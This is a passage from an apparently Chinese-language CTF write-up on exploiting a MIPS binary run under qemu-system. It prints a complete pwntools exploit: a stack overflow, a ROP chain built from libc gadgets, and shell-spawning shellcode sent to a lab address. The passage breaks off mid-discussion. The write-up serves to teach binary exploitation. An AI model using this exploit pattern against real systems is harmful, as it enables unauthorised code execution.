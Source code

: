 ![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660885061457-c5914ccd-39e6-491c-ac0c-940913695953.png)

拿到shell之后，在`qemu-system`中执行`./socat-mipsel32-static-debian-squeeze tcp-l:9999,fork exec:./eserver`，然后稍微修改一下脚本，我们尝试看能不能拿到shell：

```python
from pwn import *
context.arch = "mips"
context.endian = 'little'
context.os = "linux"
context.log_level = 'debug'

libc = ELF("./lib/libc.so.6")

#-----------------------------------------------------------
p = remote("192.168.2.2",9999)
FullLibcCodeBase = 0x77E41000
lw_s3_gadget = 0xA0730 + FullLibcCodeBase
loc_126440 = 0x126440 + FullLibcCodeBase
loc_23828 = 0x23828 +FullLibcCodeBase

padding = b"TruE"
shellcode = asm(shellcraft.sh())
payload = b'a'*504											# overflow
payload += b'b'*4										    # $fp								 
payload += p32(lw_s3_gadget) 								# $ra  

payload += b'c'*36
payload += padding                        	                # s0
payload += p32(loc_126440)				                    # s1
payload += padding                        	                # s2
payload += padding           								# s3
payload += p32(loc_23828)   								# ra  
payload += b'd'*28
payload += shellcode

p.sendlineafter('Input package: ', payload)
p.sendlineafter('Input package: ', 'EXIT')
p.interactive()
```

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660887562266-f49c4b3a-4fad-4a9b-bdf4-08082986e039.png)

此时查看进程的fd：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660887757753-16fee9ec-42e8-4445-a939-d71ae3a3b4a9.png)

所以执行`ls 1>&0`就能回显：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660887846177-9353ea01-e5e7-4216-863d-107e6aefea86.png)

但其实到这里都不是我要说明的，在qemu-system模式中拿到shell我也没想到，可能`qemu-user`和`qemu-system`都没有将MIPS架构的流水线特性体现出来吧：
